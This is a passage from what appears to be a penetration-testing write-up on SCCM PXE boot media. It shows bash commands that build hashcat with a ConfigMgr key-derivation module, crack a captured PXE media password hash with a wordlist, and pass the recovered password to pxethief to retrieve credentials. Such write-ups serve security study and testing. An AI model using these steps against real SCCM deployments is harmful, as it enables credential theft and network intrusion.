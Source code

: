 - and crack it with Christopher Panayi's hashcat module [https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module)

- on exegol with hashcat 6.2.5

```bash
cd /workspace
git clone https://github.com/hashcat/hashcat.git
git clone https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module
cp configmgr-cryptderivekey-hashcat-module/module_code/module_19850.c hashcat/src/modules/
cp configmgr-cryptderivekey-hashcat-module/opencl_code/m19850* hashcat/OpenCL/
cd hashcat
# change to 6.2.5
git checkout -b v6.2.5 tags/v6.2.5
make
```

- and crack the hash

```bash
cd /workspace
hashcat/hashcat -m 19850 --force -a 0 /workspace/pxe_hash /usr/share/wordlists/rockyou.txt
```

![pxe_hash_cracked.png](/assets/blog/SCCM/pxe_hash_cracked.png)

- we successfully retrieve the password : hello

- Now we can use it on pxethief and get the same creds as before
